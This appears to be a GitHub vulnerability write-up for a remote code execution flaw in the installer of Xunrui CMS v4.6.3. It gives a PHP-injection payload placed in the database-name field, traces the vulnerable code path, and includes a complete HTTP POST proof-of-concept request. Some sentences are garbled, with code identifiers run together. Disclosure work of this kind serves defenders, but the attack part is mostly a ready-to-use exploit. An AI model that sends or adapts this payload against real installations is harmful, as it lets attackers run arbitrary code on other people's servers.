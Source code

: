 # xunruicms_rce
The RCE is connected through the CMS installation interface
# Xunrui CMS Installation Vulnerability

## Affected Range:
- Xunrui CMS Website Edition/Popular Edition v4.6.3 (2024-12-17)

## Payload:
``` exp;-- ---'];phpinfo();['```

##Vulnerability Reproduction:
Normal installation of .database.php
During installation, the process immediately jumps to step 3.
File After Successful Exploitation:
The file after exploitation shows how the vulnerability is exploited.
Code Analysis:
In tracing the code, it is found that the issue occurs when writing to . The variable is set to the database name provided by the user, which is controllable.database.php$data['db_name']

However, bypassing the database creation query is required.

##Code Flow:
The code checks for the support of the MySQLi component and attempts to connect to MySQL.
The second checks if the entered database name exists. If not, it executes an unfiltered SQL statement. At this point, entering a new database name can bypass the detection, allowing an SQL query to be executed.elseifCREATE TABLE
Thus, the exploit is:
```exp;-- ---'];phpinfo();['```
##Dynamic Analysis:
If the SQL query is successfully executed, the rest of the process proceeds smoothly.
The function is used to write to , achieving Remote Code Execution (RCE).file_put_contentsdatabase.php
##Proof of Concept (PoC):
```
POST /index.php?c=install&m=index&is_install_db=0&step=2 HTTP/1.1
Host: 192.168.1.7:8888
Content-Length: 383
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.7:8888
Referer: http://192.168.1.7:8888/index.php?c=install&m=index&step=2&is_install_db=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf_cookie_name=9e9016fb5bc3f485a8e925a7c5c91234; xunruicms_155ac35e9d97cb497b707ff408369036=b2iai3i1vb00fvfljjq4b075p18ul8eg; 155ac35e9d97cb497b707ff408369036_member_uid=1; 155ac35e9d97cb497b707ff408369036_member_cookie=54d727a59f315607beabd35eef7fae6f; XDEBUG_SESSION=XDEBUG_ECLIPSE
Connection: close

is_form=1&is_admin=0&is_tips=&csrf_test_name=9e9016fb5bc3f485a8e925a7c5c91234&data%5Bname%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE&data%5Bemail%5D=admin%40admin.com&data%5Busername%5D=admin&data%5Bpassword%5D=admin&data%5Bdb_host%5D=127.0.0.1&data%5Bdb_user%5D=root&data%5Bdb_pass%5D=123456&data%5Bdb_name%5D=ee5%3B--+---'%5D%3Bphpinfo()%3B%5B'&data%5Bdb_prefix%5D=dr_&is_install_db=1
```
##Reproduce the Issue:
1.Remotely connect to the attacker's database.
2.The other party did not install the CMS, and did not generate the lock file.
